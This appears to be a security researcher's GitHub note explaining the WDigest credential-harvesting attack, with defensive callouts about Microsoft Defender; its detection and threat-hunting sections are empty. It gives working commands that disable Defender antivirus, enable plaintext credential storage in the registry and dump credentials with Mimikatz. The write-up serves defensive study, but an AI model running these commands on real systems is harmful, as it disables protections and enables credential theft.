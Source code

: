 # Day 13 - WDigest credential harvesting - attack
Hi there !! Thank you for visiting [@SecurityResearch-Note](https://github.com/LearningKijo/SecurityResearcher-Note). 
Today, I'm diving into the WDigest credential harvesting attack, breaking it down into three parts. 
1. WDigest credential harvesting - Attack technique 
2. WDigest credential harvesting - EPP & EDR detection
3. WDigest credential harvesting - Threat Hunting

#### Attack overview
WDigest, an outdated authentication protocol still found in corporate networks, is exploited by attackers to steal passwords and evade security measures. 
Its use exposes passwords in plain text, making it a favored target. Attackers modify registry settings to enable WDigest, often using various attack vectors. 


![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/05b4876b-ebe3-48fc-8b59-398cffe0d928)
> WDigest credential harvesting attack flow, [Threat Analytics](https://learn.microsoft.com/en-us/microsoft-365/security/defender/threat-analytics?view=o365-worldwide) in Microsoft 365 Defender

## Attack technique
The attack flow begins with disabling the antivirus solution to change a registry key, enabling WDigest, and downloading the Mimikatz tool. 
Following this, a command is executed to enable WDigest and run the Mimikatz tool using the "sekurlsa::wdigest" command.

#### 1. Disable Microsoft Defender antivirus
   - [x] DisableRealtimeMonitoring,  [Real-time protection]
   - [x] SpynetReporting, [Cloud-delivered protection]
   - [x] SubmitSamplesConsent, [Automatic sample submission]

```powershell
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableRealtimeMonitoring" /t REG_DWORD /d 1 /f
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "SpynetReporting" /t REG_DWORD /d 0 /f
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "SubmitSamplesConsent" /t REG_DWORD /d 2 /f
```

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/28105886-3f1d-4cea-8de8-c7048a60bd9a)

> [!Important]
> These commands disabled Microsoft Defender Antivirus configurations. To prevent and detect these attack techniques, enabling [Tamper Protection](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/prevent-changes-to-security-settings-with-tamper-protection?view=o365-worldwide) is the most effective approach, as it safeguards against disabling antivirus.

#### 2. Enable Wdigest
[MITRE | ATT&CK, Modify Registry, T1112, Wdigest](https://attack.mitre.org/techniques/T1112/)

```powershell
reg.exe add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" /v UseLogonCredential /t REG_DWORD /d 1 /f
```

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/49e3a65c-fe1c-42da-9ac6-902fa5f1f51b)

> [!Important]
> Even if the antivirus didn't detect and prevent the WDigest configuration change, Microsoft Defender for Endpoint, as EDR solution, can detect these activities and provide alerts.

#### 3. Download & Execute Mimikatz tool
Download - [GitHub - ParrotSec/mimikatz](https://github.com/ParrotSec/mimikatz)

```mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::wdigest
```

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/9ef03db8-22a6-45fc-a8ca-5ac7dd4bb298)

> [!Important]
> In terms of endpoint protection, Microsoft Defender Antivirus and Microsoft Defender for Endpoint are the most effective solutions for preventing and detecting Mimikatz activities.
> Additionally, when it comes to addressing lateral movement and enhancing identity visibility, Microsoft Defender for Identity is a valuable product for detecting such activities.

## EPP & EDR detection

## Threat Hunting

## Reference
1. [Forcing WDigest to Store Credentials in Plaintext](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/forcing-wdigest-to-store-credentials-in-plaintext)
2. "WDigest credential harvesting", from [Threat Analytics](https://learn.microsoft.com/en-us/microsoft-365/security/defender/threat-analytics?view=o365-worldwide) in Microsoft 365 Defender

#### Disclaimer
The views and opinions expressed herein are those of the author and do not necessarily reflect the views of company.
